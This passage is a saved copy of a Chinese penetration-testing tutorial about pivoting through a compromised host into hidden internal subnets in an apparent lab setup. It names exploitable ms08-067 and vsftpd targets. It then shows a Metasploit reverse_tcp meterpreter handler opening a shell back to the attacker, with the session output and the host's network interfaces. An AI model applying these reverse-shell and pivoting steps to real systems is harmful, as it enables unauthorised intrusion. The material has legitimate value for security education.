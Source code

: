 ```yaml
---
layout: post
title: 【技术分享】多重转发渗透隐藏内网
categories:
- Pocket
tags:
---
```

原文地址：http://m.bobao.360.cn/learning/detail/3545.html

收藏时间：2017-07-06 14:02:21

<div  lang="en">


<p nodeIndex="58"><span nodeIndex="201">作者：</span><a href="http://bobao.360.cn/member/contribute?uid=1255579132" target="_blank" nodeIndex="202"><span nodeIndex="203">quanyechavshuo</span></a>   <br nodeIndex="204"></p>
<p nodeIndex="59"><span nodeIndex="205"><span nodeIndex="206"><span nodeIndex="207">预估稿费：150RMB</span></span></span></p>
<p nodeIndex="60"><span nodeIndex="208"><span nodeIndex="209"><span nodeIndex="210">投稿方式：发送邮件至<a href="mailto:linwei@360.cn" target="_self" nodeIndex="211"><span nodeIndex="212">linwei#360.cn</span></a>，或登陆<a href="http://bobao.360.cn/contribute/index" target="_blank" nodeIndex="213">网页版</a>在线投稿</span></span></span></p>

<p nodeIndex="62"><strong nodeIndex="215"><span nodeIndex="216">0x00 About</span></strong></p>

<hr nodeIndex="217"><p nodeIndex="64"><span nodeIndex="218">内网机器如下：</span></p>

<p nodeIndex="66"><span nodeIndex="220">说明:</span></p>
<p nodeIndex="67"><span nodeIndex="221">1)Attacker为攻击者,有一个网卡,网段为172.16.0.0,Attacker系统为kali系统</span></p>
<p nodeIndex="68"><span nodeIndex="222">2)RD为第一个已经渗透的目标,有两块网卡,对应172.16.0.0和7.7.7.0两个网段</span></p>
<p nodeIndex="69"><span nodeIndex="223">3)JC有两块网卡,对应7.7.7.0和8.8.8.0两个网段,JC有ms08-067和efs bof两个漏洞,可getshell</span></p>
<p nodeIndex="70"><span nodeIndex="224">4)SK有一块网卡,对应8.8.8.0网段,SK有vsftpd的漏洞,可getshell</span></p>
<p nodeIndex="71"><span nodeIndex="225">5)起初Attacker只拿到RD的msf的shell,对于目标内网情况一无所知,也不知道存在7.7.7.0和8.8.8.0这两个隐藏的网段</span></p>
<p nodeIndex="72"><span nodeIndex="226">6)目标是准备通过RD来渗透内网中7.7.7.0和8.8.8.0两个隐藏的网段</span>   <br nodeIndex="227"></p>

<p nodeIndex="74"><strong nodeIndex="229"><span nodeIndex="230">0x01 Step1</span></strong></p>

<hr nodeIndex="231"><p nodeIndex="76"><span nodeIndex="232">Attacker在RD上通过webshell运行了一个reverse类型的后门,然后操作如下:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="77">
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.0.20 
LHOST => 172.16.0.20msf exploit(handler) > set LPORT 1234
LPORT => 1234msf exploit(handler) > run
[*] Started reverse TCP handler on 172.16.0.20:1234 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.0.11
[*] Meterpreter session 2 opened (172.16.0.20:1234 -> 172.16.0.11:49162)meterpreter > ifconfig
Interface  1============
Name         : Software Loopback Interface 1Hardware MAC : 00:00:00:00:00:00MTU          : 4294967295IPv4 Address : 127.0.0.1IPv4 Netmask : 255.0.0.0IPv6 Address : ::1IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:e1:3f:af
MTU          : 1500IPv4 Address : 172.16.0.11IPv4 Netmask : 255.255.255.0Interface 19============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2Hardware MAC : 08:00:27:7f:3c:fe
MTU          : 1500IPv4 Address : 7.7.7.11IPv4 Netmask : 255.255.255.0